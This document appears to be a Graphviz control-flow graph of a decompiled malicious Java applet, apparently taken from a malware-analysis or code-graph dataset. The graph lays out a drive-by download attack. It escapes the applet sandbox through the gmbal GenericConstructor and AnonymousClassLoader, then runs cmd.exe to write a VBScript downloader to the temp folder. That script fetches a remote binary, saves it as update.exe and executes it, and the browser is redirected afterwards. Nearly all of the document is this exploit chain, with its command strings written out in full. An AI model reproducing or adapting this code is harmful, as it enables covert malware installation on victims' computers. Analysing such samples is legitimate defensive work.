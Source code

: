 digraph "" {
    "r0 := @this: enjoy76.EnjoyMain"
    "new java.io.ByteArrayOutputStream"
    "r0 := @this: enjoy76.EnjoyMain"->"new java.io.ByteArrayOutputStream";
    "store.r r6"
    "new java.io.ByteArrayOutputStream"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"
    "load.r r6"->"specialinvoke <java.io.ByteArrayOutputStream: void <init>()>";
    "push 8192"
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"->"push 8192";
    "newarray"
    "push 8192"->"newarray";
    "store.r r8"
    "newarray"->"store.r r8";
    "load.r r0"
    "store.r r8"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "push \"EnjoyPayload.class\""
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"push \"EnjoyPayload.class\"";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"
    "push \"EnjoyPayload.class\""->"virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"->"store.r r1";
    "goto load.r r1"
    "store.r r1"->"goto load.r r1";
    "load.r r1"
    "goto load.r r1"->"load.r r1";
    "load.r r8"
    "load.r r1"->"load.r r8";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r8"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i r7"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i r7";
    "load.i r7"
    "store.i r7"->"load.i r7";
    "ifgt load.r r6"
    "load.i r7"->"ifgt load.r r6";
    "ifgt load.r r6"->"load.r r6";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"
    "load.r r6"->"virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"->"store.r r6";
    "new com.sun.org.glassfish.gmbal.util.GenericConstructor"
    "store.r r6"->"new com.sun.org.glassfish.gmbal.util.GenericConstructor";
    "dup1.r"
    "new com.sun.org.glassfish.gmbal.util.GenericConstructor"->"dup1.r";
    "push class \"Ljava/lang/Object;\""
    "dup1.r"->"push class \"Ljava/lang/Object;\"";
    "push \"sun.invoke.anon.AnonymousClassLoader\""
    "push class \"Ljava/lang/Object;\""->"push \"sun.invoke.anon.AnonymousClassLoader\"";
    "push 0"
    "push \"sun.invoke.anon.AnonymousClassLoader\""->"push 0";
    "push 0"->"newarray";
    "specialinvoke <com.sun.org.glassfish.gmbal.util.GenericConstructor: void <init>(java.lang.Class,java.lang.String,java.lang.Class[])>"
    "newarray"->"specialinvoke <com.sun.org.glassfish.gmbal.util.GenericConstructor: void <init>(java.lang.Class,java.lang.String,java.lang.Class[])>";
    "specialinvoke <com.sun.org.glassfish.gmbal.util.GenericConstructor: void <init>(java.lang.Class,java.lang.String,java.lang.Class[])>"->"push 0";
    "push 0"->"newarray";
    "virtualinvoke <com.sun.org.glassfish.gmbal.util.GenericConstructor: java.lang.Object create(java.lang.Object[])>"
    "newarray"->"virtualinvoke <com.sun.org.glassfish.gmbal.util.GenericConstructor: java.lang.Object create(java.lang.Object[])>";
    "virtualinvoke <com.sun.org.glassfish.gmbal.util.GenericConstructor: java.lang.Object create(java.lang.Object[])>"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "push \"loadClass\""
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"push \"loadClass\"";
    "push 1"
    "push \"loadClass\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "arraywrite.r"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"arraywrite.r";
    "staticinvoke <com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory: java.lang.reflect.Method getMethod(java.lang.Class,java.lang.String,java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory: java.lang.reflect.Method getMethod(java.lang.Class,java.lang.String,java.lang.Class[])>";
    "staticinvoke <com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory: java.lang.reflect.Method getMethod(java.lang.Class,java.lang.String,java.lang.Class[])>"->"load.r r1";
    "load.r r1"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r6";
    "load.r r6"->"arraywrite.r";
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"
    "arraywrite.r"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "checkcast"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"checkcast";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"
    "checkcast"->"virtualinvoke <java.lang.Class: java.lang.Object newInstance()>";
    "pop"
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"->"pop";
    "new java.lang.StringBuilder"
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"java.io.tmpdir\""
    "dup1.r"->"push \"java.io.tmpdir\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "staticget <java.io.File: java.lang.String separator>"
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"staticget <java.io.File: java.lang.String separator>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "staticget <java.io.File: java.lang.String separator>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"iph4.vbs\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"iph4.vbs\"";
    "push \"iph4.vbs\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r6";
    "store.r r6"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"\\\"\""
    "dup1.r"->"push \"\\\"\"";
    "push \"\\\"\""->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"java.io.tmpdir\"";
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"staticget <java.io.File: java.lang.String separator>";
    "staticget <java.io.File: java.lang.String separator>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"update.exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"update.exe\"";
    "push \"update.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\"\"";
    "push \"\\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r7"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r7";
    "store.r r7"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"push \"\\\"\"";
    "push \"\\\"\""->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"load.r r0";
    "push \"UrlStr\""
    "load.r r0"->"push \"UrlStr\"";
    "virtualinvoke <enjoy76.EnjoyMain: java.lang.String getParameter(java.lang.String)>"
    "push \"UrlStr\""->"virtualinvoke <enjoy76.EnjoyMain: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <enjoy76.EnjoyMain: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\"\"";
    "push \"\\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r8";
    "store.r r8"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"push \"\\\"\"";
    "push \"\\\"\""->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"load.r r0";
    "push \"goToUrl\""
    "load.r r0"->"push \"goToUrl\"";
    "push \"goToUrl\""->"virtualinvoke <enjoy76.EnjoyMain: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <enjoy76.EnjoyMain: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\"\"";
    "push \"\\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r1";
    "store.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"cmd.exe /c echo on error resume next&echo Const adTypeBinary = 1 > \""
    "dup1.r"->"push \"cmd.exe /c echo on error resume next&echo Const adTypeBinary = 1 > \"";
    "push \"cmd.exe /c echo on error resume next&echo Const adTypeBinary = 1 > \""->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo Const adSaveCreateOverWrite = 2 >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo Const adSaveCreateOverWrite = 2 >> \"";
    "push \"&echo Const adSaveCreateOverWrite = 2 >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo Dim BinaryStream >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo Dim BinaryStream >> \"";
    "push \"&echo Dim BinaryStream >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo Set BinaryStream = CreateObject(\\\"ADODB.Stream\\\") >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo Set BinaryStream = CreateObject(\\\"ADODB.Stream\\\") >> \"";
    "push \"&echo Set BinaryStream = CreateObject(\\\"ADODB.Stream\\\") >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo BinaryStream.Type = adTypeBinary >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo BinaryStream.Type = adTypeBinary >> \"";
    "push \"&echo BinaryStream.Type = adTypeBinary >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo BinaryStream.Open >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo BinaryStream.Open >> \"";
    "push \"&echo BinaryStream.Open >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo BinaryStream.Write URLGetBin(Wscript.Arguments(0)) >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo BinaryStream.Write URLGetBin(Wscript.Arguments(0)) >> \"";
    "push \"&echo BinaryStream.Write URLGetBin(Wscript.Arguments(0)) >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo BinaryStream.SaveToFile Wscript.Arguments(1), adSaveCreateOverWrite >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo BinaryStream.SaveToFile Wscript.Arguments(1), adSaveCreateOverWrite >> \"";
    "push \"&echo BinaryStream.SaveToFile Wscript.Arguments(1), adSaveCreateOverWrite >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo Function URLGetBin(URL) >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo Function URLGetBin(URL) >> \"";
    "push \"&echo Function URLGetBin(URL) >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo Dim Http >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo Dim Http >> \"";
    "push \"&echo Dim Http >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo Set Http = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo Set Http = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> \"";
    "push \"&echo Set Http = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo Http.Open \\\"GET\\\", URL, False >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo Http.Open \\\"GET\\\", URL, False >> \"";
    "push \"&echo Http.Open \\\"GET\\\", URL, False >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo Http.Send >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo Http.Send >> \"";
    "push \"&echo Http.Send >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo URLGetBin = Http.ResponseBody >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo URLGetBin = Http.ResponseBody >> \"";
    "push \"&echo URLGetBin = Http.ResponseBody >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo End Function >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo End Function >> \"";
    "push \"&echo End Function >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo Set shell = CreateObject(\\\"WScript.Shell\\\") >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo Set shell = CreateObject(\\\"WScript.Shell\\\") >> \"";
    "push \"&echo Set shell = CreateObject(\\\"WScript.Shell\\\") >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&echo shell.Run \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&echo shell.Run \"";
    "push \"&echo shell.Run \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r7"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r7";
    "load.r r7"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"+\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"+\"";
    "push \"+\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\\" -mecal\\\"\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\" -mecal\\\"\"";
    "push \"\\\" -mecal\\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" >> \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" >> \"";
    "push \" >> \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&start \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&start \"";
    "push \"&start \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" \"";
    "push \" \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" \"";
    "push \" \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r7";
    "load.r r7"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r6";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "store.r r6"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r6";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r6"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"load.r r0";
    "staticinvoke <netscape.javascript.JSObject: netscape.javascript.JSObject getWindow(java.applet.Applet)>"
    "load.r r0"->"staticinvoke <netscape.javascript.JSObject: netscape.javascript.JSObject getWindow(java.applet.Applet)>";
    "staticinvoke <netscape.javascript.JSObject: netscape.javascript.JSObject getWindow(java.applet.Applet)>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"window.parent.location.replace(\""
    "dup1.r"->"push \"window.parent.location.replace(\"";
    "push \"window.parent.location.replace(\""->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \")\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \")\"";
    "push \")\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <netscape.javascript.JSObject: java.lang.Object eval(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <netscape.javascript.JSObject: java.lang.Object eval(java.lang.String)>";
    "virtualinvoke <netscape.javascript.JSObject: java.lang.Object eval(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <netscape.javascript.JSObject: java.lang.Object eval(java.lang.String)>"->"store.r r0";
    "ifgt load.r r6"->"load.r r6";
    "load.r r6"->"load.r r8";
    "load.r r8"->"push 0";
    "push 0"->"load.i r7";
    "virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>"
    "load.i r7"->"virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>";
}
